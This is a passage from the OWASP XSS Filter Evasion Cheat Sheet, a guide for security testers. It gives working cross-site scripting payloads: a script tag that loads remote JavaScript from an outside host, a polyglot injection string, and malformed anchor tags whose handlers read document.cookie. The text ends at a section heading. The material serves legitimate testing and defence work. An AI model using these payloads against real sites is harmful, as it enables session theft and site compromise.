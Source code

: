 # XSS Filter Evasion Cheat Sheet

## Introduction

This article is focused on providing application security testing professionals with a guide to assist in Cross Site Scripting testing. The initial contents of this article were donated to OWASP by RSnake, from his seminal XSS Cheat Sheet, which was at: `http://ha.ckers.org/xss.html`. That site now redirects to its new home here, where we plan to maintain and enhance it. The very first OWASP Prevention Cheat Sheet, the [Cross Site Scripting Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html), was inspired by RSnake's XSS Cheat Sheet, so we can thank RSnake for our inspiration. We wanted to create short, simple guidelines that developers could follow to prevent XSS, rather than simply telling developers to build apps that could protect against all the fancy tricks specified in rather complex attack cheat sheet, and so the [OWASP Cheat Sheet Series](https://owasp.org/www-project-cheat-sheets/) was born.

## Tests

This cheat sheet lists a series of XSS attacks that can be used to bypass certain XSS defensive filters. Please note that input filtering is an incomplete defense for XSS which these tests can be used to illustrate.

### Basic XSS Test Without Filter Evasion

This is a normal XSS JavaScript injection, and most likely to get caught but I suggest trying it first (the quotes are not required in any modern browser so they are omitted here):

`<SCRIPT SRC=https://cdn.jsdelivr.net/gh/Moksh45/host-xss.rocks/index.js></SCRIPT>`

### XSS Locator (Polyglot)

The following is a "polyglot test XSS payload." This test will execute in multiple contexts including html, script string, js and URL. (Based on this [tweet](https://twitter.com/garethheyes/status/997466212190781445) by [Gareth Heyes](https://twitter.com/garethheyes)).

```
javascript:/*--></title></style></textarea></script></xmp>
<svg/onload='+/"`/+/onmouseover=1/+/[*/[]/+alert(42);//'>
```

### Malformed A Tags

Skip the HREF attribute and get to the meat of the XXS... Submitted by David Cross \~ Verified on Chrome

`\<a onmouseover="alert(document.cookie)"\>xxs link\</a\>`

or Chrome loves to replace missing quotes for you... if you ever get stuck just leave them off and Chrome will put them in the right place and fix your missing quotes on a URL or script.

`\<a onmouseover=alert(document.cookie)\>xxs link\</a\>`

### Malformed IMG Tags
